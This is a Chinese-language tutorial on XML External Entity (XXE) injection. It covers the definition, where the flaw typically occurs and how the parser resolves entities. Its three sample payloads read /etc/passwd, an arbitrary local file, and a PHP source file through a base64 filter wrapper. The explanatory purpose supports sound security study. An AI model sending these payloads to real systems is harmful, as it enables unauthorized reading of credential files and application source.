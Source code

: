 
---
## XXE
### 定义
XXE漏洞全称(XML External Entity Injection) 即xml外部实体注入漏洞，XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件和代码，造成任意文件读取、命令执行、内网端口扫描、攻击内网网站、发起Dos攻击等危害

---
### 易发地
XXE漏洞触发的点往往是可以上传xml文件的位置，没有对上传的xml文件进行过滤，导致可上传恶意xml文件

---
### 原理

有了XML实体，关键字’SYSTEM’会令XML解析器从URI中读取内容，并允许它在XML文档中被替换。因此，攻击者可以通过实体将他自定义的值发送给应用程序，然后让应用程序去呈现。 简单来说，攻击者强制XML解析器去访问攻击者指定的资源内容(可能是系统上本地文件亦或是远程系统上的文件)

### 实例
code1：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE a [<!ENTITY passwd SYSTEM "file:///etc/passwd">]>
<foo>
        <value>&passwd;</value>
</foo>
```


code2：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE b [<!ENTITY entityex SYSTEM "file:///folder/file">]>
<foo>
        <value>&entityex;</value>
</foo>
```

code3：

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=index.php" >
]>
<root>
<name>&xxe;</name>
</root>
```

以Code1代码为例

XML外部实体 ‘passwd’ 被赋予的值为：file:///etc/passwd。

在解析XML文档的过程中，实体’passwd’的值会被替换为URI(file:///etc/passwd)内容值(也就是passwd文件的内容)。

`关键字’SYSTEM’会告诉XML解析器，’passwd’实体的值将从其后的URI中读取`
